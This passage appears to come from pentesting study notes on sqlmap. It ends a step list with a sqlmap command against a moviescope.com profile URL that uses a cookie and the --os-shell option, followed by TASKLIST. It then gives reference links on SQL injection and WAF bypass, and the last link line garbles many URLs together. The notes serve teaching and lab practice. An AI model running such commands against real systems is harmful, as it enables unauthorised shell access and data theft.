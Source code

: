 * Get table data of this column
* sqlmap -u “[http://www.moviescope.com/viewprofile.aspx?id=1](http://www.moviescope.com/viewprofile.aspx?id=1)" — cookie=”value” — os-shell
* Get the OS Shell
* TASKLIST

\


### Other References

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap" %}

{% embed url="https://hackertarget.com/sqlmap-tutorial/" %}

{% embed url="https://www.binarytides.com/sqlmap-hacking-tutorial/" %}

{% embed url="https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/" %}

{% embed url="https://medium.com/@rafaelrenovaci/dvwa-solution-sql-injection-blind-sqlmap-cd1461ad336e" %}

{% embed url="https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7" %}

{% embed url="https://gracefulsecurity.com/sql-injection-filter-evasion-with-sqlmap/" %}

{% embed url="https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF" %}

{% embed url="https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/" %}

[https://www.exploit-db.com/docs/english/13701-easy-methodblind-sql-injection.pdf](https://hackertarget.com/sqlmap-tutorial/https://www.binarytides.com/sqlmap-hacking-tutorial/https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/https://medium.com/@rafaelrenovaci/dvwa-solution-sql-injection-blind-sqlmap-cd1461ad336ehttps://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7https://www.exploit-db.com/docs/english/13701-easy-methodblind-sql-injection.pdfhttps://gracefulsecurity.com/sql-injection-filter-evasion-with-sqlmap/https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3https://owasp.org/www-community/attacks/SQL\_Injection\_Bypassing\_WAFhttps:/www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/)







